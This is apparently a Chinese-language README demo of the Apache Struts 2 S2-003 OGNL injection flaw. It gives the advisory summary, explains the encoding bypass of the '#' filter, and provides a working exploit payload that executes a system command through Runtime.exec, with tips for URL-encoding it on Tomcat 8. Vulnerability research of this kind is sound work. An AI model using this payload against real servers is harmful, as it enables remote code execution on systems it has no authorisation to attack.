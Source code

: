 # S2-003 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote server context manipulation                           |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to Struts 2.2.1 or later |
| Affected Software       | Struts 2.0.0 - Struts 2.1.8.1                                |
| Original JIRA Ticket    | [XW-641](http://jira.opensymphony.com/browse/XW-641), [WW-2692](http://issues.apache.org/struts/browse/WW-2692) |
| Reporter                | Meder Kydyraliev, Google Security Team                       |

## Problem

Ognl的上下文对象必须要使用#符号，Struts2虽然对#号进行过滤，但是没有考虑到编码情况，导致可以用unicode编码\u0023或者八进制\43绕过。

## Environment

| Struts2 Version | struts-2.0.11.2-all                                          |
| --------------- | ------------------------------------------------------------ |
| Server          | Tomcat 6.0.9 (Only in this version did I run payload successfully) |
| IDE             | idea 2020.1.1 ULTIMATE                                       |

## POC

![{15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417](img/{15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417.jpg)

payload:

```java
?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)
```

vulhub有在tomcat8测试成功，大家可以试试：

> 网上一些POC放到tomcat8下会返回400，研究了一下发现字符`\`、`"`不能直接放path里，需要urlencode，编码以后再发送就好了。

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

* [S2-003](https://cwiki.apache.org/confluence/display/WW/S2-003)
